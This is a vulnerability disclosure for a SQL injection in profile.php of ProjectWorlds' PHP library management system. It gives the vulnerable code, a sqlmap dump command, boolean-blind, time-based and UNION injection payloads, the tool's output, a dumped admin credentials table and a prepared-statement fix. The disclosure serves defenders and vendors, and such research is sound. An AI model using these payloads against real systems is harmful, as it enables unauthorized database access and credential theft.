

# Advanced-Library-Management-System-Project-in-PHP-with-Barcode-profile.php
## SQL Injection Vulnerability in `profile.php` (parameter: `admin_id`, GET)

- **Vendor:** ProjectWorlds
- **Product:** Advanced Library Management System Project in PHP with Barcode
- **Affected Version:** 1.0 (master branch)
- **Vendor Homepage:** https://projectworlds.com/advanced-library-management-system-project-in-php-with-barcode/
- **Vulnerability Type:** SQL Injection (CWE-89)
- **Affected File:** `profile.php`
- **Affected Parameters:** `admin_id`
- **CVSS Score:** 8.8 (High) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N`
- **Discover Date:** 2026-10-07
- **Researcher:** Shailendra Mourya (CyberShailendra)
- **Researcher Website:** https://cybershailendra.cyou
- **Entry:** VDB-*****
- **CVE ID:** CVE-2026-***
- **Test Environment:** Local VMware lab (CyberShailendra VM), Apache 2.4.58, PHP 8.0.30, MySQL ≥5.1 (MariaDB fork), Windows host
- **Tool Chain:** Manual `curl`/Burp verification + `sqlmap` automated confirmation & dump

---

## Summary
`profile.php` takes `admin_id` from the GET query string and uses it directly in a `SELECT * FROM admin WHERE admin_id = '...'` query. Confirmed via sqlmap with **13 columns** detected (matching the `admin` table's column count), boolean-based, time-based, and UNION-based techniques all succeeded.

## Vulnerable Code (Logic Point)
```php
// profile.php
$admin_id = $_GET['admin_id'];
$result = mysqli_query($con, "SELECT * FROM admin WHERE admin_id = '$admin_id'");
```
**Bug class:** CWE-89. Notably this is the **admin's own profile page** — meaning the vulnerable parameter is reachable by *any authenticated admin/librarian*, and because it queries the `admin` table directly (not via JOIN), this is the most direct path to credential disclosure of the three GET-based findings.

## Proof of Concept — actual sqlmap run output
```bash
sqlmap -u "http://<domain>/profile.php?admin_id=1" \
  --cookie="PHPSESSID=<session>" -p admin_id --batch -D project_library -T admin --dump
```

```text
[INFO] target URL appears to have 13 columns in query
[WARNING] reflective value(s) found and filtering out
[INFO] GET parameter 'admin_id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable

Parameter: admin_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: admin_id=1' AND 9183=(SELECT (CASE WHEN (9183=9183) THEN 9183 ELSE (SELECT 7381 UNION SELECT 2637) END))-- vgTf

    Type: time-based blind
    Payload: admin_id=1' AND (SELECT 1446 FROM (SELECT(SLEEP(5)))nYYM)-- AqzP

    Type: UNION query
    Title: Generic UNION query (NULL) - 13 columns
    Payload: admin_id=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a6827871,0x4f7041474f4a544a...),NULL,NULL,NULL,NULL,NULL-- -

the back-end DBMS is MySQL
web server operating system: Windows
web application technology: PHP 8.0.30, Apache 2.4.58
```

**Result — full `admin` table dumped (401 HTTP requests):**

| admin_id | email_id | adhaar_id | contact | lastname | password | username | firstname | admin_type | middlename |
|---|---|---|---|---|---|---|---|---|---|
| 1 | johndoe@example.com | 123456789012 | 9876543210 | Doe | **admin123** | admin | John | Admin | A. |
| 2 | janesmith@example.com | 210987654321 | 9876543211 | Smith | **librarian123** | jane.librarian | Jane | Librarian | B. |

### Proof Screenshot


### Raw Verification Log
- Full sqlmap output log: [log](log)

## Impact
- **CVSS 3.1 estimate: 8.8 (High)** — GET-based, reachable by any authenticated low-privilege user, no interaction needed beyond visiting a crafted link/parameter within their own session, full credential dump of every admin/librarian account.
- Because `profile.php?admin_id=N` is a natural, expected navigable URL (users clicking "View Profile"), an attacker could enumerate other admins' `admin_id` values simply by incrementing N, then pivot to this injection.

## Remediation
```php
$stmt = mysqli_prepare($con, "SELECT * FROM admin WHERE admin_id = ?");
mysqli_stmt_bind_param($stmt, "i", $admin_id);
mysqli_stmt_execute($stmt);
```
Additionally: `admin_id` should come from `$_SESSION['id']` for "my profile" views, not from an attacker-controllable GET parameter at all — the current design also has an **IDOR** (CWE-639) layered on top of the SQLi, since any admin can view/attempt to access any other admin_id's profile by changing the URL.


